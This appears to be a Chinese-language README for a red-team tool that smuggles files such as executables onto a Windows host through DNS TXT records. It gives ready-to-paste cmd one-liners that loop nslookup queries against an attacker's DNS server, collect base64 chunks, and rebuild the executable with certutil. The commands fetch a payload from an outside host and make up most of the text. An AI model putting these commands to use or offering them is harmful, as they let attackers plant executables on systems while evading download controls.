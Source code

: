 # 原理
利用dns的TXT记录，先把要写入的文件base64编码，然后把文件先切割为32kb的数组列表: L1, L2....，再将每个元素切割为长度为254的列表，将此作为txt记录返回。

## 0x1. 文件托管
```bash
python dnsWrite.py <calc.exe>
```

## 0x2. 写入文件
利用域名的Txt解析，从baidu0.com开始解析：`baidu0.com、baidu1.com ...`，客户端输入以下命令，一直到服务端出现Done, Press Ctrl + C to Exit，表示发送完毕。客户端再利用`certutil -decode decode.txt calc.exe`转码为exe文件:

```cmd
cmd /v:on /Q /c "set a= && set b=  && for /f "tokens=*" %i in ('nslookup -qt^=TXT baidu0.com 192.168.2.3 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >> decode.txt 

cmd /v:on /Q /c "set a= && set b=  && for /f "tokens=*" %i in ('nslookup -qt^=TXT baidu1.com 192.168.2.3 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >> decode.txt 

...
```

如果文件特别大，可以再加一层for循环，下面是循环了20次请求域名的解析，注意观察服务端是否发送完成，当服务端发送完成就可以断开了，由于循环还在继续:
```cmd
cmd /v:on /Q /c "for /l %i in (0,1,20) do (set a= && set b= && for /f "tokens=*" %j in ('nslookup -qt^=TXT baidu%i.com 192.168.2.3 ^| findstr "exec"') do (set a=%j && echo !a:~5,-2! >> decode.txt))"
```

## 0x3. 参考文章
* [远程下载的通用替代方案 ｜ 红队攻防](https://mp.weixin.qq.com/s/Z1zp7klk--uQ1OnzljNESw)
